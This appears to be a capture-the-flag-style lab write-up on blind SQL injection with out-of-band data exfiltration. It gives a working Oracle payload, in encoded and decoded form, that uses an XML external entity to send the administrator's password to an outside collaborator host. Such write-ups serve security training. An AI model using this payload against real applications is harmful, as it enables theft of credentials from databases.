


# Blind SQL injection with out-of-band data exfiltration
# Objective
This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.\
\
The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.\
\
The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.\
\
To solve the lab, log in as the administrator user.

# Solution

||
|:--:| 
| *Modification of cookie value* |
||
| *Data exfiltration - administrator's password* |

Final payload:
```
Encoded: 20UNION%20SELECT%20EXTRACTVALUE(xmltype('%3c%3fxml%20version%3d%221.0%22%20encoding%3d%22UTF-8%22%3f%3e%3c!DOCTYPE%20root%20%5b%20%3c!ENTITY%20%25%20remote%20SYSTEM%20%22http%3a%2f%2f'%7c%7c(SELECT%20password%20from%20users%20where%20username%3d'administrator')%7c%7c'.<id>.oastify.com%2f%22%3e%20%25remote%3b%5d%3e')%2c'%2fl')%20FROM%20dual--; 

Decoded: 20UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password from users where username='administrator')||'.<id>.oastify.com/"> %remote;]>'),'/l') FROM dual--; 
```
